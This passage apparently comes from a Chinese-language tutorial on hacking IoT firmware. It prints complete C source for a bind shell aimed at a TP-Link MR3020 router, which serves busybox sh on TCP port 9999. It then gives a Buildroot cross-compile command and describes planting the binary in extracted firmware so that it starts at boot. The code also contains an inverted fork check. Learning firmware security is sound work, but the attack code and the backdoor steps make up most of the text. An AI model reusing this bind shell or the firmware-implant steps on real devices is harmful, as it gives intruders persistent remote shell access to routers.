 ```
#include <stdio.h> 
#include <stdlib.h> 
#include <string.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <netinet/in.h> 

#define SERVER_PORT  9999 
 /* CC-BY: Osanda Malith Jayathissa (@OsandaMalith) 
  * Bind Shell using Fork for my TP-Link mr3020 router running busybox 
  * Arch : MIPS 
  * mips-linux-gnu-gcc mybindshell.c -o mybindshell -static -EB -march=24kc 
  */ 
int main() { 
   int serverfd, clientfd, server_pid, i = 0; 
   char *banner = "[~] Welcome to @OsandaMalith's Bind Shell\n"; 
   char *args[] = { "/bin/busybox", "sh", (char *) 0 }; 
   struct sockaddr_in server, client; 
   socklen_t len; 

   server.sin_family = AF_INET; 
   server.sin_port = htons(SERVER_PORT); 
   server.sin_addr.s_addr = INADDR_ANY; 

   serverfd = socket(AF_INET, SOCK_STREAM, 0); 
   bind(serverfd, (struct sockaddr *)&server, sizeof(server)); 
   listen(serverfd, 1); 

    while (1) { 
         len = sizeof(struct sockaddr); 
         clientfd = accept(serverfd, (struct sockaddr *)&client, &len); 
        server_pid = fork(); 
        if (server_pid) { 
         write(clientfd, banner,  strlen(banner)); 
           for(; i <3 /*u*/; i++) dup2(clientfd, i); 
           execve("/bin/busybox", args, (char *) 0); 
           close(clientfd); 
         } close(clientfd); 
    } return 0; 
} 
```

一旦我们有了代码，我们就可以使用 Buildroot for MIPSEL，并使用使用 Buildroot 构建的交叉编译器进行编译。我们不会详细介绍设置 Buildroot 的过程，因为这个过程非常简单，并且已经在文档中有所记录。

1.  一旦我们为 MIPSEL 创建了交叉编译器，我们就可以将`bindshell.c`编译为`bindshell`二进制文件，然后将其放置在固件的提取文件系统中：

```
./mipsel-buildroot-linux-uclibc-gcc bindshell.c -static -o bindshell  
```

下一步是寻找我们可以将这个二进制文件放置在文件系统中的位置，以及如何在启动时自动启动。这可以通过查看其中一个在启动时会自动调用的脚本来完成。
